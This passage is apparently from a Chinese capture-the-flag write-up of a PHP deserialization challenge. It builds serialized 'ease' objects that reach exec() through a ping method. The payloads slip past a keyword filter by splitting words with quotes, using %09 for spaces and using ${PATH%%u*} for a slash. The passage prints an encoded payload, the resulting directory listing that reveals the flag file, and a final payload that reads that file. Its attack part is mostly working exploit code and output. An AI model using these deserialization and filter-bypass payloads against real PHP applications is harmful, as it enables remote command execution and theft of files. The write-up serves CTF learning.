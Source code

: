 ```php
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode("l''s%09fl''ag_1s_here")));
echo urlencode(base64_encode(serialize($a)));
?>
```

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czoxOToibCcncwlmbCcnYWdfMXNfaGVyZSI7fX0
  > array(1) {[0]=>string(25) "flag_831b69012c67b35f.php"}

可以构建最终payload了。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode('ca\'\'t%09fl\'\'ag_1s_here${PATH%%u*}fl\'\'ag_831b69012c67b35f.p\'\'hp')));
echo urlencode(base64_encode(serialize($a))).'<br>';
?>
```
